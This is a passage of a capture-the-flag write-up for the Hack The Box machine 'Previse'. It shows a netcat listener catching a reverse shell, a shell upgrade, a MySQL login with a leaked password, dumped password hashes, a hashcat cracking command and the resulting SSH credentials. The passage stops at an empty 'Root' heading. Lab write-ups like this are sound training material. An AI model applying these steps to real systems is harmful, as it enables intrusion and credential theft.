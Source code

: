 We get a connection
```
┌──(root💀kali)-[~/htb/previse]                                                                                                                                                                                                              
└─# nc -lvnp 9002                                                                                                                                                                                                                        1 ⨯ 
listening on [any] 9002 ...                              
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.104] 35510                                                          
bash: cannot set terminal process group (1429): Inappropriate ioctl for device                                        
bash: no job control in this shell
www-data@previse:/var/www/html$
```

# User
Lets connect to mysql and see if we can find any creds. But first we need to upgrade our shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then we can connect to mysql
```
www-data@previse:/var/www/html$ mysql -u root -p 
mysql -u root -p 
Enter password: mySQL_p@ssw0rd!:)  
```

We find a database called "previse" and a table called "accounts" in that table we can see a hash for the user "m4lwhere"

```
mysql> select * from accounts
select * from accounts
    -> ;
;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | zonifer  | $1$🧂llol$79cV9c1FNnnr7LcfPFlqQ0 | 2021-11-02 01:57:36 |
+----+----------+------------------------------------+---------------------+
```

We can crack it with hashcat. I did this on my host machine that has a GPU to speed things up
`PS C:\hashcat-6.2.3> ./hashcat.exe -m 500 ..\hash.txt ..\rockyou.txt`

Password cracked `m4lwhere:ilovecody112235!`
`$1$≡ƒºéllol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!`

We can now SSH into the machine as m4lwhere and get our user flag

# Root
